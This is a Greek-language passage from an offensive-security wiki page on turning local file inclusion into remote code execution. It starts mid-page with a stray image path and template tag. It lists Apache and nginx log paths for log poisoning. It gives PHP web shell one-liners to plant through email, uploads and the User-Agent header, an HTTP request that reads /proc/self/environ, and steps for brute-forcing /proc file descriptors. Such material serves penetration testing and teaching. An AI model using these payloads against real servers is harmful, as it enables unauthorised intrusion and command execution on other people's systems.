 Επίσης, βεβαιωθείτε ότι **γράφετε σωστά το payload** ή η PHP θα σφάλει κάθε φορά που προσπαθεί να φορτώσει το αρχείο καταγραφής και δεν θα έχετε δεύτερη ευκαιρία.
{% endhint %}

Αυτό θα μπορούσε επίσης να γίνει σε άλλες καταγραφές αλλά **προσοχή,** ο κώδικας μέσα στις καταγραφές θα μπορούσε να είναι URL κωδικοποιημένος και αυτό θα μπορούσε να καταστρέψει το Shell. Η κεφαλίδα **authorisation "basic"** περιέχει "user:password" σε Base64 και αποκωδικοποιείται μέσα στις καταγραφές. Το PHPShell θα μπορούσε να εισαχθεί μέσα σε αυτή την κεφαλίδα.\
Άλλες πιθανές διαδρομές καταγραφής:
```python
/var/log/apache2/access.log
/var/log/apache/access.log
/var/log/apache2/error.log
/var/log/apache/error.log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/nginx/access.log
/var/log/nginx/error.log
/var/log/httpd/error_log
```
Fuzzing wordlist: [https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)

### Via Email

**Στείλτε ένα email** σε έναν εσωτερικό λογαριασμό (user@localhost) που περιέχει το PHP payload σας όπως `<?php echo system($_REQUEST["cmd"]); ?>` και προσπαθήστε να το συμπεριλάβετε στο email του χρήστη με μια διαδρομή όπως **`/var/mail/<USERNAME>`** ή **`/var/spool/mail/<USERNAME>`**

### Via /proc/\*/fd/\*

1. Ανεβάστε πολλές shells (για παράδειγμα: 100)
2. Συμπεριλάβετε [http://example.com/index.php?page=/proc/$PID/fd/$FD](http://example.com/index.php?page=/proc/$PID/fd/$FD), με $PID = PID της διαδικασίας (μπορεί να γίνει brute force) και $FD τον file descriptor (μπορεί επίσης να γίνει brute force)

### Via /proc/self/environ

Όπως ένα αρχείο καταγραφής, στείλτε το payload στο User-Agent, θα ανακλαστεί μέσα στο αρχείο /proc/self/environ
```
GET vulnerable.php?filename=../../../proc/self/environ HTTP/1.1
User-Agent: <?=phpinfo(); ?>
```
### Μέσω ανέβασμα

Αν μπορείτε να ανεβάσετε ένα αρχείο, απλά εισάγετε το shell payload σε αυτό (π.χ : `<?php system($_GET['c']); ?>` ).
```
http://example.com/index.php?page=path/to/uploaded/file.png
```
Για να διατηρηθεί το αρχείο αναγνώσιμο, είναι καλύτερο να εισάγετε στα μεταδεδομένα των εικόνων/doc/pdf
